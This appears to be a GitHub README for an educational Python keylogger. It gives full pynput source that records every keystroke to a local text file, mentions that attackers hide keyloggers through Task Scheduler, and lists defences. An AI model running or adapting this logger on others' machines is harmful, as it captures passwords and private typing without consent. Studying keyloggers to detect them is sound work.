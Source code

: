 # Python-Keylogger
This is a simple Python script that logs keyboard activity using the `pynput` library. It records keystrokes and writes them to a local text file (`keyfile.txt`). This tool is designed **solely for educational and ethical testing purposes**, such as understanding how keyloggers work and how to detect or prevent them.

DISCLAIMER

> **This project is intended strictly for educational use.**  
> Do **not** use this software on any system without **explicit written permission** from the owner.

 How It Works
- Listens to all keyboard input using the `pynput.keyboard` module.
- Logs printable characters to `keyfile.txt`.
- Records special keys like `Enter`, `Tab`, `Shift` as `[Key.enter]`, `[Key.shift]`, etc.
- Stops recording when the **Escape** key is pressed.

from pynput import keyboard 

from pynput import keyboard 


def key_pressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logkey:
        try:
            logkey.write(key.char)
        except AttributeError:
            logkey.write(f'[{key}]')

def on_release(key):
    # Stop listener if Esc is pressed
    if key == keyboard.Key.esc:
        return False

if __name__ == "__main__":
    with keyboard.Listener(on_press=key_pressed, on_release=on_release) as listener:
        listener.join()

#What makes keyloggers so dangerous
Keyloggers are majority of the time are hidden and passivly logging scripts, many attackers abuse this by implemting them into system startup and automated stricts. Usally through TaskSchedular.

 
 #How to Protect Against Keyloggers#
-Use up-to-date antivirus/anti-malware software
-Regularly audit running processes
-Monitor for unusual file changes 
-Educate users on suspicious behavior and phishing


#This script is useful for:
Learning how keyloggers operate
Understanding attack vectors in endpoint security
Practicing defensive detection and mitigation techniques



